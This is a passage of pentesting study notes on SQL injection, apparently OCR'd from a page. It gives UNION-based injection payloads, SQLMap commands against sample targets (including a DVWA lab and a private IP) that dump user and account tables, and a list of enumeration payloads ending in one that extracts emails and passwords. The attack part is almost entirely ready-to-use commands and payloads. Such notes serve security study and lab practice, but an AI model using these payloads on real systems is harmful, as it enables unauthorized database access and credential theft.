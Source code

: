 ```bash
Warning: mysql_fetch_array() expects parameter 1 to be mysql_result, boolean given in /var/www/view.php on line 32
```

* We can try with two fields: `' UNION SELECT null null; -- -` and three even to confirm that the original query only has two fields.
* Once we know how many fields are in the query it's time to test which fields are part of the output page.
* You can do that by injecting some known values and checking thee results in the output page, as in: `' UNION SELECT 'elsid1', 'elsid2'; -- -`.
* Now we can exploit the injection: `' UNION SELECT user(), 'elsid2'; -- -`.
* Not only `SELECT` queries are vulnerable.

## SQLMap

* Can detect and exploit SQL injections
* Needs to know the vulnerable URL and the parameter to test for a SQLi

```bash
sqlmap -u <URL> -p <injection parameter> [options]
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
sqlmap -u <url> --data=<POST string> -p id [options] # POST string as user=a&pass=a

# You can copy the POST string  from a request intercepted in Burp Suite
sqlmap -r file.req -p user
sqlmap -u 'http://192.168.1.20/dvwa/vulnerabilities/sqli/?id=231&Submit=Submit#' --cookie="PHPSESSID=26faf41ffba440ce1346b8d8ca9408ac; security=low" -D dvwa -T users --dump

# --technique=U --> UNION based SQL injection technique
# --banner shows server's banner
# --flush-session

sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D awd -T accounts --dump
```

#### From discord \(to test\)

```sql
1' UNION SELECT 1-- -
3' AND sleep(5) -- -
SELECT 1, schema_name,3 FROM information_schema.schemata limit 1,1-- -
SELECT 1, table_name,3 FROM information_schema.tables WHERE table_schema=hotel limit 1,1-- -
SELECT 1, column_name,3 FROM information_schema.columns WHERE table_schema=hotel and table_name=room limit 1,1
SELECT 1, table_name,3 FROM information_schema.tables limit 1,1-- -
SELECT group_concat(email,0x3a,Password) from awd.accounts limit 1,1;
```

## 

